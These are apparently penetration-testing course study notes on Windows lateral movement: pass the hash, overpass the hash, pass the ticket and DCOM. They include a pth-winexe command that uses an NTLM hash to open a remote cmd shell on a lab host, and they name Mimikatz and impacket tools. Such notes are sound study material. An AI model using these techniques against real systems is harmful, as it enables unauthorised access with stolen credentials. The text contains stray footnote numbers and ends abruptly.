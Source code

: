 # Lateral movement

## Pass the hash

PTH only works for NTLM authentication, not for Kerberos authentication.

Tools: PsExec (Metasploit), [https://github.com/byt3bl33d3r/pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) or [ https://github.com/CoreSecurity/impacket/blob/master/examples/smbclient.py](https://github.com/CoreSecurity/impacket/blob/master/examples/smbclient.py)



Pth-winexe

```
kali@kali:~$ pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2
eb3b9f05c425e //10.11.0.22 cmd
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.16299.309]
(c) 2017 Microsoft Corporation. All rights reserved.
C:\Windows\system32>
```

## Overpass the Hash

NTLM to --> Kerberos TGT ticket

With overpass the hash,673 we can “over” abuse a NTLM user hash to gain a full Kerberos Ticket Granting Ticket (TGT) or service ticket, which grants us access to another machine or service as that user.



## Pass the ticket

In the previous section, we used the overpass the hash technique (along with the captured NTLM hash) to acquire a Kerberos TGT, allowing us to authenticate using Kerberos. We can only use the TGT on the machine it was created for, but the TGS potentially offers more flexibility. The Pass the Ticket attack takes advantage of the TGS, which may be exported and re-injected elsewhere on the network and then used to authenticate to a specific service. In addition, if the service tickets belong to the current user, then no administrative privileges are required.

Mimikatz can craft a silver ticket and inject it straight into memory through the (somewhat misleading) kerberos::golden676 command. We will explain this apparent misnaming later in the module.

## Distributed Component Object Model (DCOM)

{% hint style="info" %}
There are two other well-known lateral movement techniques worth mentioning: abusing Windows Management Instrumentation680 and a technique known as PowerShell Remoting.
{% endhint %}

Takes advantage of Office.
